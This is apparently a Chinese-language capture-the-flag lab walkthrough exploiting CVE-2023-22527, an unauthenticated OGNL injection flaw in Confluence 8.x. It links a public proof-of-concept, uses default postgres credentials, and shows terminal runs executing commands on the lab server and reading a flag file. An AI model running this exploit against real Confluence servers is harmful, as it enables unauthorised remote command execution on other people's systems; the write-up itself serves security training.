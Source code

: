 # CVE-2023-22527

:::info

> 在 Confluence 8.0 到 8.5.3 版本之间，存在一处由于任意 velocity 模板被调用导致的 OGNL 表达式注入漏洞，未授权攻击者利用该漏洞可以直接攻击 Confluence 服务器并执行任意命令

:::

使用 [Manh130902/CVE-2023-22527-POC: A critical severity Remote Code Execution (RCE) vulnerability (CVE-2023-22527) was discovered in Confluence Server and Data Center.](https://github.com/Manh130902/CVE-2023-22527-POC) 直接梭哈

:::warning

服务启动时间较长

:::

生成一个试用许可证

![img](img/image_20250455-225541.png)

![img](img/image_20250456-225648.png)

数据库这里，使用默认的 `postgres:postgres` 凭据连接数据库

![img](img/image_20250459-225937.png)

接下来配置完环境初始化之后，即可攻击环境

```bash
┌──(randark㉿kali)-[~/pocs/CVE-2023-22527-POC]
└─$ python3 CVE-2023-22527.py --target http://6bda12f1-fa21-45f4-83f5-b83190f9abca-488.cyberstrikelab.com:83/ --cmd "pwd"
Confluence version: 8.5.3
Command Output:
/var/atlassian/application-data/confluence

┌──(randark㉿kali)-[~/pocs/CVE-2023-22527-POC]
└─$ python3 CVE-2023-22527.py --target http://6bda12f1-fa21-45f4-83f5-b83190f9abca-488.cyberstrikelab.com:83/ --cmd "ls -lh /"
Confluence version: 8.5.3
Command Output:
total 24K lrwxrwxrwx    1 root root    7 Jan 11  2024 bin -> usr/bin drwxr-xr-x    2 root root   10 Apr 18  2022 boot -rwxrwxr-x    1 root root 1.2K Jan 17  2024 __cacert_entrypoint.sh drwxr-xr-x    5 root root  360 Apr 23 15:03 dev -rw-r--r--    1 root root 5.5K Jan 20  2024 entrypoint_helpers.py -rwxr-xr-x    1 root root  995 Jan 20  2024 entrypoint.py drwxr-xr-x    1 root root   66 Apr 23 15:03 etc -rwxr-xr-x    1 root root  143 Dec  3 07:24 flag.sh drwxr-xr-x    2 root root   10 Apr 18  2022 home lrwxrwxrwx    1 root root    7 Jan 11  2024 lib -> usr/lib lrwxrwxrwx    1 root root    9 Jan 11  2024 lib32 -> usr/lib32 lrwxrwxrwx    1 root root    9 Jan 11  2024 lib64 -> usr/lib64 lrwxrwxrwx    1 root root   10 Jan 11  2024 libx32 -> usr/libx32 drwxr-xr-x    2 root root   10 Jan 11  2024 media drwxr-xr-x    2 root root   10 Jan 11  2024 mnt drwxr-xr-x    1 root root   31 Jan 20  2024 opt dr-xr-xr-x 4295 root root    0 Apr 23 15:03 proc drwx------    1 root root   10 Jan 17  2024 root drwxr-xr-x    1 root root   29 Apr 23 15:03 run lrwxrwxrwx    1 root root    8 Jan 11  2024 sbin -> usr/sbin drwxr-xr-x    1 root root   35 Jan 20  2024 sbom -rwxr-xr-x    1 root root 1.1K Jan 20  2024 shutdown-wait.sh drwxr-xr-x    2 root root   10 Jan 11  2024 srv dr-xr-xr-x   13 root root    0 Apr 23 15:03 sys drwxrwxrwt    1 root root   63 Apr 23 15:03 tmp drwxr-xr-x    1 root root   90 Jan 11  2024 usr drwxr-xr-x    1 root root   46 Jan 20  2024 var

┌──(randark㉿kali)-[~/pocs/CVE-2023-22527-POC]
└─$ python3 CVE-2023-22527.py --target http://6bda12f1-fa21-45f4-83f5-b83190f9abca-488.cyberstrikelab.com:83/ --cmd "ls -lh /tmp"
Confluence version: 8.5.3
Command Output:
total 4.0K -rw-r--r-- 1 root       root       46 Apr 23 15:03 flag.txt drwxr-xr-x 2 confluence confluence 39 Apr 23 15:16 hsperfdata_confluence drwxr-xr-x 1 root       root       24 Jan 17  2024 hsperfdata_root

┌──(randark㉿kali)-[~/pocs/CVE-2023-22527-POC]
└─$ python3 CVE-2023-22527.py --target http://6bda12f1-fa21-45f4-83f5-b83190f9abca-488.cyberstrikelab.com:83/ --cmd "cat /tmp/flag.txt"
Confluence version: 8.5.3
Command Output:
go-flag{b3921870-be0b-48b1-9672-a7da35c98653}
```
